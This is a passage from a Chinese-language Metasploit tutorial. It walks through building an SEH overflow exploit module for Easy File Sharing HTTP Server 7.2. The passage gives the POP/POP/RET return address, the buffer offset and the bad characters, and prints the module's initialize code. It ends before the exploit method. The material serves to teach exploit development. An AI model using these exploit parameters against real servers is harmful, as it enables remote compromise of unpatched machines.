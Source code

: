 让我们使用一个安全地址，消除可能导致 HTTP 协议问题的地址，比如连续重复的零，如下：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/71da2ab5-e7dc-4092-9ce3-df3e361b7481.png)

我们将使用`0x10019798`作为 POP/POP/RET 地址。现在我们已经有了撰写利用程序的两个关键组件，即偏移量和要加载到 catch 块中的地址，即我们的 POP/POP/RET 指令的地址。我们只需要短跳转的指令，这将被加载到下一个 SEH 记录的地址，这将帮助我们跳转到 shellcode。Metasploit 库将使用内置函数为我们提供短跳转指令。

# 编写 Metasploit SEH 利用模块

现在我们已经有了利用目标应用程序的所有重要数据，让我们继续在 Metasploit 中创建一个利用模块，如下：

```
class MetasploitModule < Msf::Exploit::Remote 

  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 
  include Msf::Exploit::Seh 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'Easy File Sharing HTTP Server 7.2 SEH Overflow', 
      'Description'    => %q{ 
        This module demonstrate SEH based overflow example 
      }, 
      'Author'         => 'Nipun', 
      'License'        => MSF_LICENSE, 
      'Privileged'     => true, 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread', 
     'RPORT' => 80, 
        }, 
      'Payload'        => 
        { 
          'Space'    => 390, 
          'BadChars' => "x00x7ex2bx26x3dx25x3ax22x0ax0dx20x2fx5cx2e", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Easy File Sharing 7.2 HTTP', { 'Ret' => 0x10019798, 'Offset' => 4061 } ], 
        ], 
      'DisclosureDate' => 'Mar 4 2018', 
      'DefaultTarget'  => 0)) 
  end 
```

在处理各种模块的头部部分后，我们开始包含库文件的所需部分。接下来，我们定义类和模块类型，就像我们在之前的模块中所做的那样。我们通过定义名称、描述、作者信息、许可信息、有效载荷选项、披露日期和默认目标来开始`initialize`部分。我们在`Ret`返回地址变量和`Offset`字段下使用`4061`作为 POP/POP/RET 指令的地址。我们使用`4061`而不是`4065`，因为 Metasploit 将自动生成短跳转指令到 shellcode；因此，我们将从`4065`字节前开始 4 个字节，以便将短跳转放入载体中，以用于下一个 SEH 记录的地址。
